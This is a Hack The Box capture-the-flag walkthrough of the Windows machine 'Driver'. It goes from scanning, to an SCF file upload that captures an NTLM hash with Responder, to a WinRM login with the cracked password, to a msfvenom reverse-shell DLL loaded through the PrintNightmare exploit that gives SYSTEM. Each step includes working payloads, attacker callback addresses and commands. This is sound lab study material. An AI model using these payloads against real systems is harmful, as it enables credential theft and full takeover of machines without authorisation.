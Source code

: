 # HTB - Driver

#### Ip: 10.10.83.71
#### Name: Driver
#### Rating: Easy

----------------------------------------------------------------------

Driver.png

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ sudo nmap -p-  --min-rate 10000 10.10.11.106  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-21 10:28 CDT
Nmap scan report for 10.10.11.106
Host is up (0.070s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ sudo nmap -sC -sV 10.10.11.106 -p 80,135,445,5985
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-21 10:31 CDT
Nmap scan report for 10.10.11.106
Host is up (0.068s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc?
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-08-21T22:31:20
|_  start_date: 2023-08-21T22:22:54
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.05 seconds
```

Navigating to the website on port 80, we are met with a pop saying we need to authenticate. Luckily, I tried admin:admin and got access to the site:

site.png

Clicking on the Firmware Updates link (the only option that contains an actual link) we find an interesting page and message:

firmware.png

Ok interesting. This note seems to imply that whatever we load here will be manually reviewed. Lets try an SCF attack.

### Exploitation

First we need to create an .scf file (Shell Command File) which contains our IP we'll be listening on with Responder. We can do that with:


```text
[Shell]
Command=2
IconFile=\\10.10.14.34\share\testing.ico
[Taskbar]
Command=ToggleDesktop
```

I saved this to a file called test.scf.

Lets now start up Responder to listen for any connections:

responder.png

Once we upload the file we see that user Tony did reveiw it and Responder was able to grab his hash!

hash.png

Lets put this hash in a file called tony_hash and use JohnTheRipper to crack it:

cracked.png

Remembering that WinRM (port 5985) is open on the target, lets login with the discovered credentials using Evil-WinRM:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ evil-winrm -i 10.10.11.106 -u tony -p liltony

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
*Evil-WinRM* PS C:\Users\tony\Documents> hostname
DRIVER
```

We can now grab the user.txt flag:

user_flag.png

### Privilege Escalation

I'll use the `upload` feature in Evil-WinRM and upload a copy of WinPEAS to help enumerate a privilege escalation vector:

```text
*Evil-WinRM* PS C:\Users\tony\Music> upload /home/ryan/Tools/privesc/winPEASx64.exe
Info: Uploading /home/ryan/Tools/privesc/winPEASx64.exe to C:\Users\tony\Music\winPEASx64.exe

                                                             
Data: 2581844 bytes of 2581844 bytes copied

Info: Upload successful!
```

Looking through the results from WinPEAS, I start seeing lots of info about Ricoh printers.

ricoh.png

Googling for exploits I find https://github.com/cube0x0/CVE-2021-1675 hosting the PrintNightmare exploit code.

Lets try this.

First we'll need to create a reverse shell .dll using msfvenom:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.34 LPORT=443 -f dll -o shell.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: shell.dll
```

With that created we can then set up an smb share using impacket-smbserver:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ impacket-smbserver share . 
```

Then, with a NetCat listener going, we can run the exploit:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ python printnightmare.py driver/tony:liltony@10.10.11.106 '\\10.10.14.34\share\shell.dll'
```

And catch a shell back as nt authority\system:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.11.106] 49432
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

exploit.png

From here all we need to do is grab the root.txt flag:

root_flag.png

Thanks for following along!

-Ryan

----------------------------------------